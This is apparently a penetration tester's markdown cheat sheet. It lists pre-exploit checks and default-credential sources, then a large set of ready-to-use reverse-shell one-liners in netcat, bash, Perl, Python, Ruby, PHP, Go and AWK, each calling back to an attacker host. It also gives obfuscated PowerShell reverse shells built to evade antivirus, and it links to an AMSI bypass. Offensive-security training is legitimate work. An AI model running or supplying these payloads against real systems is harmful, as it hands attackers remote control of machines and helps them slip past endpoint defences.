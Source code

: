 # Pre-requisites for runninging exploits
- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?
# Default Credentials
- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
# Reverse Shells
## Sources/Links
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md
- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
- https://github.com/m0rph-1/revshellgen (tool for generating rev shells)

## Most commonly used:
- Netcat: `nc -e /bin/sh 10.0.0.1 1234`
    - when -e is and is not available: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
- Bash: `bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1`
- Perl: `perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- Python
    - One Liner: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
    - Script: Can add to libraries if you have access to edit the libraries. Full source of resources can be found here: https://github.com/infodox/python-pty-shells
        `import os
        import pty
        import socket
        lhost = "192.168.119.111"
        lport = 80
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((lhost, lport))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        os.putenv("HISTFILE",'/dev/null')
        pty.spawn("/bin/bash")
        s.close()`
    - IPv6: `python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' `
- Ruby: `ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
- Ruby: `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- PHP - http://pentestmonkey.net/tools/web-shells/php-reverse-shell
- PHP (local): `/usr/share/webshells/php/php-reverse-shell.php`
- PHP `php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- Windows Powershell Oneliner
    - Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you.

    `$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
    $VXm = $ezYSZf.GetStream();
    [byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
    while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
    {;
    $Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
    $sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
    $YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
    $sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
    $VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
    };
    Start-Sleep -Seconds 5
    $ezYSZf.Close()`

# Windows Resources
- Powershell: `/usr/share/nishang/Shells`

- Linux Powershell Oneliner
    `$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
    $VXm = $ezYSZf.GetStream();
    [byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
    while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
    {;
    $Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
    $sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
    $YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
    $sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
    $VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
    };
    $ezYSZf.Close()`
- Golang: `echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go`
- AWK: `awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`